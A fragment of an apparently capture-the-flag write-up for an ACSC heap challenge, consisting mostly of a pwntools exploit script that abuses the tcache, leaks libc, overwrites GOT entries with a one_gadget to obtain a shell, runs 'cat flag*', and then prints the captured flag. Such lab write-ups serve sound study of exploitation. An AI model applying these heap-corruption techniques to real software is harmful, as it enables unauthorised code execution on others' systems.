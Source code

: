 ```python 
Edit(4,0x68,p64(0)*6+p64(tcache_perthread_struct+0x160))
Edit(5,0x78,b"X")
Edit(6,0x58,b"Khongduocthicut")
List()
p.recvuntil(b"[5] ")
libc.address=int(p.recv(6)[::-1].hex(),16)-0x219ce0
puts_abs_got=libc.address+0x219098
realloc_abs_got=libc.address+0x219160
log.info(f"libc @ {hex(libc.address)}")
Edit(3,0x78,p16(0)*6+p16(7))
Edit(4,0x68,p64(0)*6+p64(realloc_abs_got))
Edit(7,0x78,p64(libc.address+0xebcf8))

Edit(4,0x68,p64(0)*6+p64(puts_abs_got-8))
Edit(8,0x78,p64(0)+p64(libc.sym.realloc+1153))

p.sendline(b"cat flag*")
p.interactive()
```

![](https://i.imgur.com/heE4Mex.png)

Flag : `ACSC{r34ll0c_15_n07_ju57_r34ll0c473}`
